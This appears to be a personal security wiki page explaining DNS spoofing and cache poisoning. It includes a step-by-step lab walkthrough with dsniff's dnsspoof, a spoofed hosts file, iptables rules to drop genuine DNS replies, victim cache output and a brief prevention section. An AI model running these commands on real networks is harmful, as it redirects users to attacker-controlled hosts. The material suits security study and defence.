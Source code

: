 ```yaml
---
description: >-
  Domain Name System (DNS) spoofing involves sending fake and malicious DNS
  query to a target machine, causing its DNS cache to be poisoned.
---
```


# DNS spoof/poison

This attack exploits the fact that DNS is <mark style="color:red;">**not**</mark> encrypted by default, which makes it vulnerable to sniffing and modifications.

On a local network, DNS spoofing can be used as an additional vector of attack after the initial man-in-the-middle position have been established. A particular use case of DNS spoofing would be to further escalate the attack, for example to allow resolution of domain/host names that are previously non-existent - but still seemingly legitimate.&#x20;

This could be done for subdomains of trusted websites. For example, lets assume there's a website that a user visits often, and trusts:  <mark style="color:green;">jarrett.gohxiangzheng.com</mark>. If a new subdomain: <mark style="color:red;">trustme.gohxiangzheng.com</mark>, with the same root domain name (<mark style="color:green;">gohxiangzheng.com</mark>) is encountered by the user, it is more likely to be trusted. The caveat is that the fake subdomain mentioned above does not need to actually exist, and this technique would work as long as the malicious DNS server has means of resolving it.&#x20;

Suppose the user's local DNS cache has an existing record for <mark style="color:green;">jarrett.gohxiangzheng.com</mark>. However, it does not apply for the new fake subdomain, and the machine would still be required to perform a DNS lookup. If a MitM situation has been established by the attacker between the user and gateway, the DNS query would be sent to the malicious server instead, which would poison the user's cache with a fake entry pointing to the attacker controlled IP address.

In summary, a DNS spoofing/poisoning attack allows the following to happen:

1. DNS resolution of a previously non-existent, but seemingly legitimate host name
2. Bypass of the user's local DNS cache

## dSniff's dnsspoof tool

### Installation

```bash
$ sudo apt install dsniff
```

### Usage

Load a DNS hosts file with entries

```bash
$ echo "<attacker_ip_addr> *.example.com" > path/to/hostsfile

$ cat path/to/hostsfile
<attacker_ip_addr> *.example.com
```

Run a DNS server on a particular interface, with given hosts file content at path

```bash
$ sudo dnsspoof -i <iface> -f path/to/hostsfile
```

Example: Run a DNS server on the interface **eth0** to resolve queries for any subdomain of _<mark style="color:green;">**gohxiangzheng.com**</mark>_ to the IP address <mark style="color:green;">**10.10.10.10**</mark> - hosts file name is **hosts.spoof**

```bash
# View content of hosts file
$ cat hosts.spoof
10.10.10.10 *.gohxiangzheng.com 

# Run DNS server
$ sudo dnsspoof -i eth0 -f hosts.spoof
dnsspoof: listening on eth0 [udp dst port 53 and not src ...]
```

_<mark style="background-color:red;">NOTE</mark>_: Ensure that port forwarding is disabled on the attacker machine (seems to be disabled by default on Kali)

* This is to prevent the machine from forwarding the DNS query to the actual gateway, which might potentially cause a race condition, such that the victim receive the DNS reply from the actual gateway first, affecting the effectiveness of the attack

```bash
$ sudo sysctl -w net.ipv4.ip_forward=0
```

* To verify if its enabled/disabled (returns 0 if disabled, else 1)

```bash
$ cat /proc/sys/net/ipv4/ip_forward
```

#### Alternative method

However, if IP forwarding is required on the attacker machine, a direct approach can be taken instead:

* Drop all DNS queries (UDP port 53) destined for the actual gateway address

```bash
$ sudo iptables -A FORWARD -p udp --dport 53 -d <gateway_addr> -j DROP
```

* Or simply drop all DNS queries received, and prevent it from being forwarded

```bash
$ sudo iptables -A FORWARD -p udp --dport 53 -j DROP
```

{% embed url="https://security.stackexchange.com/a/277584/312485" %}

## Demonstration

#### Assume the following parameters:

**Victim machine**

* <mark style="color:yellow;">**Windows**</mark>
* 10.0.2.4

#### Attacker machine

* **Kali Linux**&#x20;
* 10.0.2.5

#### Actual gateway&#x20;

* 10.0.2.1

#### <mark style="color:red;">Attacker machine</mark>: Run a malicious DNS server (assume a MitM position has been established)

<pre class="language-bash"><code class="lang-bash">$ cat hosts.spoof
10.0.2.5 *.gohxiangzheng.com

$ sudo dnsspoof -i eth0 -f hosts.spoof
dnsspoof: listening on eth0 [udp dst port 53 and not src 10.0.2.5]
<strong>
</strong># Prevent DNS traffic from being forwarded
$ sudo iptables -A FORWARD -p udp --dport 53 -d 10.0.2.1 -j DROP
</code></pre>

#### <mark style="color:green;">Victim machine</mark>: Ping a subdomain of the target root domain (<mark style="color:red;">trustme.</mark><mark style="color:red;">**gohxiangzheng.com**</mark>**)**

* This would elicit a DNS lookup for the requested host name

```bash
$ ping trustme.gohxiangzheng.com
...
```

#### <mark style="color:red;">Attacker machine</mark>: DNS query display&#x20;

* Following the ping request from the victim machine, the DNS query would be received by the attacker machine and the following would output from the _**dnsspoof**_ command

```bash
10.0.2.4.<random_port> > 10.0.2.1.53:  ... A? trustme.gohxiangzheng.com
```

* &#x20;A Wireshark window on the attacker machine, with the filter <mark style="color:blue;">**dns && ip.addr == 10.0.2.4**</mark> would display the DNS query from the victim machine
* This causes the host name _<mark style="color:green;">**trustme.gohxiangzheng.com**</mark>_ to be resolved to the IP address <mark style="color:green;">**10.0.2.5**</mark> - an actual DNS server would not resolve it, as it does not actually exists

#### <mark style="color:green;">Victim machine</mark>: Poisoning of the victim's local DNS cache

* Consequently, the DNS cache would be poisoned with a false entry

### View & flush DNS cache on <mark style="color:yellow;">Windows</mark>

#### To view the local DNS cache&#x20;

```powershell
$ ipconfig /displaydns

trustme.gohxiangzheng.com
----------------------------------------
Record Name . . . . . : trustme.gohxiangzheng.com
Record Type . . . . . : 1
Time To Live  . . . . : 36
Data Length . . . . . : 4
Section . . . . . . . : Answer
A (Host) Record . . . : 10.0.2.5
```

#### To flush the local DNS cache

```powershell
$ ipconfig /flushdns
```

## <mark style="color:orange;">Prevention methods</mark>

#### 1. Use secure DNS

* Virtual Private Network (VPN) providers
* Third-party security software
* Browser built-in secure DNS

This can be achieved with DNSSEC, DNS over HTTPS (DoH), etc. This allows DNS traffic to be encrypted, which prevents sniffing and malicious modifications of data.



{% embed url="https://www.kali.org/tools/dsniff/" %}

{% embed url="https://www.mankier.com/5/hosts" %}
DNS hosts file format
{% endembed %}

